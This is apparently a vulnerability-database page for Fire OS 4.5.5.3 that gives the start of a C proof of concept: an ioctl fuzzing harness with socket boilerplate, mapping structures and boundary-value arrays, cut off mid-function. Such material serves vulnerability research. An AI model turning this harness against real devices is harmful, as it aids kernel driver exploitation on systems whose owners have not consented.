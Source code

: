 <languages  /> <translate>

漏洞影響
--------

</translate>

    Fire OS 4.5.5.3

POC
---

    #include<stdio.h>
    #include<string.h>      //strlen
    #include<sys/socket.h>
    #include<arpa/inet.h> //inet_addr
    #include<unistd.h>      //write
    #include <stdlib.h>
    #include <sys/stat.h>
    #include <sys/mman.h>
    #include <fcntl.h>
    #include <stdbool.h>

    // Socket boilerplate code taken from here: http://www.binarytides.com/server-client-example-c-sockets-linux/

    /*
     seed, ioctl_id, num_mappings, num_blobs, dev_name_len, dev_name, map_entry_t_arr, blobs
    */
    int debug = 1;

    typedef struct {
        int src_id;
        int dst_id;
        int offset;
    } map_entry_t;

    short tiny_vals[18] = {128, 127, 64, 63, 32, 31, 16, 15, 8, 7, 4, 3, 2, 1, 0, 256, 255, -1};
    int *small_vals;
    int num_small_vals;

    // populates small_vals when called
    void populate_arrs(int top) {
        int num = 1;
        int count = 0;
        while (num < top) {
            //printf("%d\n", num);
            num <<= 1;
            count += 2;
        }
        // top
        count += 1;
        // -1
        count += 1;
        num_small_vals = count;
        num >>= 1;
